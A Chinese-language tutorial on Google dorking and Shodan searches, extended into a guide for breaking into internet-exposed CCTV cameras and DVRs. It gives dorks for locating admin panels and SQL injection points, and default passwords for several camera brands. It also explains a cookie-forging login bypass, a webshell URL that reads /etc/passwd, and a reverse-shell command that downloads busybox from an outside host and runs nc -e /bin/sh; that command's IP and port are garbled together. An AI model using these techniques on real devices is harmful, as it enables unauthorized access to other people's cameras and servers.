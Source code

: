 # 常见搜索的使用

## Google的使用

Google Hacking是利用谷歌搜索的强大，在浩瀚的互联网中搜索到我们需要的信息。轻量级的搜索可以搜素出一些遗留后门等；中量级的搜索出一些用户信息或源代码泄露等；重量级的则可能是mdb文件下载，网站配置密码，php远程文件包含漏洞等重要信息。**网站地址：[https://www.google.com/ncr](https://www.google.com/ncr)**。国内其竞品为[Baidu](https://www.baidu.com/)。

### 基本搜索

+ 通配符：`*`和`?`
+ 逻辑与：`+`，如`google + android`，搜索包含google且android的页面
+ 逻辑或：`|`，如`google | android`，搜索包含google或android的页面
+ 逻辑非：`-`，如`google -android`，搜索包含google且不包含android的页面

### 高级搜索

+ cache：将返回存储下来的历史页面。例如`cache:www.hackingspirits.com guest`将返回指定网站的缓存，并且正文中含有guest
+ info：返回指定站点的信息。例如`info:www.baidu.com`将返回百度的一些信息
+ site：指定访问的站点。例如`site:baidu.com inurl:Login`将只在baidu.com中查找url中含有Login的网页
+ (all)inurl：将返回url中含有关键词的网页。例如`inurl:Login`将返回url中含有Login的网页
+ (all)intitle：将返回标题中含有关键字的网页。例如`intitle:后台登录`将只返回标题中包含"后台登录"的网页
+ (all)intext：将返回正文中含有关键字的网页。例如`intext:后台登录`将只返回正文中包含"后台登录"的网页
+ filetype：指定访问的文件类型。例如`site:baidu.com filetype:pdf`将只返回baidu.com上文件类型为pdf的网页

而上面这些命令中用的最多的就是inurl，利用这个命令可以查到很多意想不到的东西。如查找SQL注入`inurl:?id=1`。

### 常见搜索

+ 查找网站后台
  + `site:xx.com inurl:login`
  + `site:xx.com intitle:后台`
  + `site:xx.com intext:管理`
+ 查看上传漏洞
  + `site:xx.com inurl:file`
  + `site:xx.com inurl:load`
+ 查看服务器使用的程序
  + `site:xx.com filetype:php`
  + `site:xx.com filetype:jsp`
  + `site:xx.com filetype:asp`
  + `site:xx.com filetype:aspx`



## Shodan的使用

Shodan是一个搜素互联网链接设备的搜索引擎，不同于Google搜素引擎。用户可在Shodan上使用搜索语法查找链接到互联网的摄像头、路由器、服务器等设备信息。它通过扫描全网设备并抓取解析各个设备返回的banner信息，通过了解这些信息Shodan就能得知网络中哪一种Web服务器是最受欢迎的，或是网络中到底存在多少可匿名登录的FTP服务器。**网站地址：[https://www.shodan.io](https://www.shodan.io/)**。国内其竞品为[ZoomEye](https://www.zoomeye.org/)。

### 搜索语法

+ net：搜索指定的IP地址或子网，例如`[<content>] net:"117.44.67.0/24"`
+ hostname：搜索指定的主机或域名，例如`[<content>] hostname:"sina.com"`
+ port：搜索指定的端口，例如`[<content>] port:"80"`
+ country 搜索指定的国家，例如`[<content>] country:"China"`
+ city：搜索指定的城市，例如`[<content>] city:"Beijing"`
+ product：搜索指定的操作系统/软件，例如`[<content>] product:"linux"`
+ version：搜索指定的软件版本，例如`[<content>] version:"7.1.4"`
+ org：搜索指定的组织或公司，例如`[<content>] org:"Google"`
+ before/after：搜索指定收录时间前后的数据(格式为dd-mm-yy)，例如`[<content>] before:"11-11-15"`

**除了通过搜索以外，还可以点击shodan右侧的“explore”，就可以看到别人分享的搜索语法。**比如一个弱密码的漏洞`Server: uc-httpd 1.0.0 200 OK Country:"China"`。

每次查询完后，点击页面上的 “Exploits” 按钮，Shodan就会帮我们查找针对不同平台、不同类型可利用的exploits(漏洞)。当然也可通过直接访问网址来自行搜索：https://exploits.shodan.io/welcome。

**特别的：注意安全，不要乱搞，看看就行，不要改人家配置和密码。(不乱搞，不出事)**

### 密码破解

搜索完成后，我们可以在概要页面的每一个IP旁边点击“斜向上箭头”或者在详情页面每个端口旁“分享箭头”进入服务器，一般用户名为Admin、admin等，密码为空或者111111、888888、123456等。

AndrewTierney在其Blog上公布了一片有关摄像头漏洞利用的文章https://www.pentestpartners.com/blog/pwning-cctv-cameras/，翻译文章为https://blog.51cto.com/simeon/1744228，归纳其核心如下：

+ 存在弱口令漏洞

  简称为“CCTV”(Mvpower 8 Channel Security DVR Full D1 H.264CCTV Real-time Network Digital Video Recorder Mobile Motion Detection,P2P HDMIAlarm Email for CCTV Surveillance Cmeras System)，如在Amazon的购买地址为http://www.amazon.co.uk/dp/B0162AQCO4，其存在弱口令admin，密码为空。收集的其它几款网络摄像机的口令如下：

   （1）海康威视IP网络摄像机：超级用户：admin/12345

   （2）天地伟业网络摄像机：用户名：Admin/111111

   （3）大华网络摄像机：用户名：admin/888888

+ 登录密码绕过漏洞

  可以对之前用默认密码成功登录的页面进行抓包，找到处理页面登录逻辑的js，对处理页面登录的逻辑分析发现，存在登录绕过漏洞，代码如下：

  ```js
  $(document).ready(function(){
      dvr_camcnt= Cookies.get("dvr_camcnt");
      iSetAble= Cookies.get("iSetAble");
      iPlayBack= Cookies.get("iPlayBack");
      dvr_usr= Cookies.get("dvr_usr");
      dvr_pwd= Cookies.get("dvr_pwd");
      if(iSetAble== '0'){
          $('#pb_settings').css('display','none');
      }
      if(iPlayBack== '0'){
          $('#pb_review').css('display','none');
      }
      if(dvr_camcnt== null || dvr_usr == null || dvr_pwd == null){
          location.href= "/index.html";
      }
  }
  ```

  系统管理页面直接通过js检查cookie是否为空来判断用户是否登录。于是通过伪造cookie便可以绕过登录检查。通过代码可以看到需要伪造三个cookie值，dvr_camcnt，dvr_usr=admin，dvr_pwd=123。直接打开http://xx.xx.xx.xx/view2.html时，抓包发现系统会自动设置该cookie参数的值，这个值需要记录下来，否则后面填错的话是看不到监控内容的。dvr_usr和dvr_pwd可以随便设置，只要不为空就好。保存后重新刷新一下http://xx.xx.xx.xx/view2.html，便可以成功登录系统。

+ 直接获取webshell

  直接访问`<ip>/shell?cat%20/etc/passwd`或`<ip>shell?cat%20/tmp/usrm.ini`即可获取服务器root帐号密码。

+ 获取反弹shell

  执行命令：`cd/root/rec/a1 && wget http://212.111.43.161/busybox && chmod +x busybox && ./busybox  nc 122.115.47.398000 -e /bin/sh -e /bin/sh`，将反弹shell至122.115.47.39的8000端口。还可以执行命令`http://www.antian365.com/shell?/usr/sbin/telnetd-l/bin/sh -p 25`通过telnet目标IP直接进入系统。

实战例子请参考翻译文章。



